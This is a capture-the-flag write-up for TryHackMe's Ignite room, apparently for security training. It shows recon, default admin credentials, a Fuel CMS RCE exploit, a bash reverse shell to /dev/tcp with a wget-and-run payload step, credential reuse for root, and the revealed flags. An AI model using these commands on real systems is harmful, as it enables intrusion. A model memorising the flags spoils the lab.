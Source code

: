 # Ignite

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

> 🔬🌐 [Ignite](https://tryhackme.com/room/ignite)
>
> _A new start-up has a few issues with their web server._
>
> <img src=".gitbook/assets/ignite.png" alt="" data-size="original">

🎯 Target IP: `10.10.174.21`

## Recon

```bash
mkdir ignite
cd ignite
nmap -sV -sC -oA nmap_ignite 10.10.174.21
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry
|_/fuel/
```

> 📌 Found **FUEL CMS v. 1.4** on port `80`

### Local Recon

Navigate to

* `http://10.10.174.21/`
* `http://10.10.174.21/fuel`
  * `admin`:`admin`

## Exploitation

* Search for a Fuel CMS exploit

```bash
searchsploit fuel cms
searshsploit -m 50477
less 50477.py

python 50477.py -u http://10.10.174.21
```

> 📌 [Fuel CMS 1.4.1 - Remote Code Execution (3)](https://www.exploit-db.com/exploits/50477)

```bash
whoami
```

![](.gitbook/assets/image-20230511172416842.png)

### Reverse Shell

```bash
ip -br -c a
	10.18.65.48 # my IP
	
subl shell.sh

# Insert this line for a bash reverse shell
/bin/bash -i >& /dev/tcp/10.18.65.48/3333 0>&1
```

* Setup a Python web server and a `nc` listener on 2 different tabs

```bash
python -m http.server

nc -nvlp 3333
```

* Back in the exploited Fuel CMS `Enter Command $`

```bash
wget http://10.18.65.48:8000/shell.sh -O shell.sh
bash shell.sh
```

* Reverse shell received in the `nc` terminal

```bash
/usr/bin/script -qc /bin/bash /dev/null
cd /home/www-data
ls
cat flag.txt
```

<details>
<summary>Reveal Flag - user.txt: 🚩</summary>

`6470e394cbf6dab6a91682cc8585059b`

<img src=".gitbook/assets/image-20230511171954548.png" alt="" data-size="original">

</details>

## Privilege Escalation

* Enumerate Fuel CMS application
  * `/var/www/html/fuel/application/config/`

```bash
cat /var/www/html/fuel/application/config/database.php
```

```bash
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);
```

> 📌 Found database credentials: `root`:`mememe`

* Try to use those credentials for the `root` user of the system

```bash
su root

whoami
cd
cat root.txt
```

<details>

<summary>Reveal Flag - root.txt: 🚩</summary>

`b9bbcb33e11b80be759c4e844862482`

<img src=".gitbook/assets/image-20230511175207984.png" alt="" data-size="original">

</details>

***
